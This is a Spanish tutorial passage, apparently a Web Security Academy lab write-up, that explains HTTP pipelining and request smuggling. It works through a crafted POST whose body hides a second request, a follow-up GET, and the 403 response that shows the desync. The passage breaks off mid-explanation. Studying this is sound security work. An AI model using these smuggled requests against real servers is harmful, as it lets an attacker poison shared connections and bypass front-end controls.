 Para este ejemplo usaremos dos peticiones enviadas en la misma conexión.

Sigamos profundizando en Pipelining

Request 1:

```http
POST /resources/images/avatarDefault.svg HTTP/1.1\r\n
Host: 0a4600d204a0636b805603eb009a00a8.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Connection: Keep-alive\r\n
Content-Length: 28\r\n
\r\n
POST /X HTTP/1.1\r\n
X-Ignore: X
```

Request 2:
```http
GET / HTTP/1.1\r\n
Host: 0a4600d204a0636b805603eb009a00a8.web-security-academy.net\r\n
\r\n
```
¿Qué esperamos?
Que la segunda petición falle.
Nos fijaremos en su respuesta:

Response 1: 
```http
HTTP/1.1 200 OK
Content-Type: image/svg+xml
...
```

Response 2:
```http
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
Keep-Alive: timeout=10
Content-Length: 47

"Frontend only accepts methods GET, POST, HEAD"
```

¿Por qué pasa esto?
Gracias al pipelining.
El servidor lee exactamente 28 bytes para la primera petición. Eso incluye `X-Ignore: ` pero se queda justo antes de la “`X`” final.

Lo que sobra se queda en el buffer y se usa como inicio de la siguiente petición, quedando así:


Request 1: 
```http
POST /resources/images/avatarDefault.svg HTTP/1.1\r\n
Host: 0a4600d204a0636b805603eb009a00a8.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Connection: Keep-alive\r\n
Content-Length: 28\r\n
\r\n
POST /X HTTP/1.1\r\n
X-Ignore:
```
